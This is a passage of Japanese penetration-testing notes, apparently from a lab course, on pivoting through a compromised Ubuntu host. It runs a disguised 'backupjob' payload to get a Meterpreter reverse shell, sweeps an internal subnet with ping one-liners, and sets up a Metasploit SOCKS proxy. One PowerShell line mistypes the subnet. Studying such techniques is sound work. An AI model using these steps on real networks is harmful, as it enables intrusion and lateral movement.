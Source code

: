 3.  ピボットホストにペイロードをコピーして実行
- 作成した backupjob ファイルを、SSHを使ってUbuntuピボットホストへ転送 し、実行する
```shell
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

4. Meterpreterセッションの確立
ペイロードを実行すると、Ubuntuサーバー（ピボットホスト）から攻撃ホストへリバースシェルが確立される

## MeterPreterトンネルでの実行

### Ping Sweep
- ピボットホストのUbuntuホストからネットワーク`172.16.5.0/23`へのICMPトラフィックを生成する`ping_sweep`モジュールでMeterpreterを使用できる
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

ピボットホストで直接実行する時には、以下のコマンドらも使用できる
- ピボットホストがLinuxの時
	- `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
- ピボットリストがWindowsの時
	- CMD
		- `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`
	- PowerShell
		- `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`

注意点
- ホストのファイアウォールが **Ping（ICMP）をブロック** しているケースがあり、その場合、Pingでは成功した応答を得られない可能性がある
- そのような場合、**Nmapを使用して 172.16.5.0/23 ネットワーク上でTCPスキャンを実行** することができる
- また、ポートフォワーディングのために **SSHを使用する代わりに**、Metasploitの **ポストエクスプロイトモジュール socks_proxy** を活用して、攻撃ホスト上に **ローカルプロキシを設定** することも可能
- **SOCKSプロキシは SOCKSバージョン4a で構成** し、ポート **9050** でリスナーを起動する
- この設定により、**すべてのトラフィックをMeterpreterセッション経由でルーティング** することができる

### MSFのSOCKSプロキシの設定
```shell
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
Module options (auxiliary/server/socks_proxy):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)
Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```
